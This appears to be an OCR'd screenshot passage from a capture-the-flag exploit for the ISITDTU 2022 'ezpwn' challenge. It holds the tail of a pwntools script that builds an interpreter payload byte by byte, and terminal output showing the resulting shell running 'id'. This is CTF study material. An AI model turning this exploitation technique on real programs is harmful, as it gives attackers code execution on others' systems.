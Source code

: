 ```python
pl += b'>'*7
pl += b'>'*8

pl += b'-'*0x94
pl += b'>'
pl += b'-'*0x7b
pl += b'>'
pl += b'-'*0x16
pl += b'>'*6

pl += b'+'*0x10
pl += b'>'*8

pl += b'>'*8*3

pl += b'-'*0xd7
pl += b'>'
pl += b'-'*0x4b
pl += b'>'
pl += b'-'*0x1e
pl += b'>'*6

pl += b'>'*8*2

pl += b'-'*0x59
pl += b'>'
pl += b'+'*0x6d
pl += b'>'
pl += b'+'*0x2

io.sendline(pl)
io.interactive()

7528 Sarmat λ  (~/.../isitdtu-final-2022/ezpwn)
 $ python3 exp.py 
[+] Starting local process './game': pid 11330
[*] Switching to interactive mode
1. Play game
2. Read MOTD
3. Some language interpreter
Your choice: Enter your string: Enter first magic number: Enter second magic number: 1. Play game
2. Read MOTD
3. Some language interpreter
Your choice: Enter source code: $ 
$ id
uid=1000(duongnh) gid=1000(duongnh) groups=1000(duongnh),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),137(docker)
$ 
[*] Interrupted
[*] Stopped process './game' (pid 11330)
```
